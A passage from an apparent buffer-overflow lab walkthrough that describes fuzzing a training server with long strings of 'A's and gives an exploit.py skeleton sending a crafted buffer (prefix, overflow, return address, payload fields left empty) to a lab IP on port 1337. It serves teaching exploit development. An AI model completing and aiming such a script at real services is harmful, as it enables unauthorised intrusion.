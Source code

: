 The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

![immunity](/assets/Bof1/fuzzer2.png)

## Crash Replication & Controlling EIP

Create another file on your Kali box called exploit.py with the following contents:

```
import socket

ip = "10.10.120.48"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
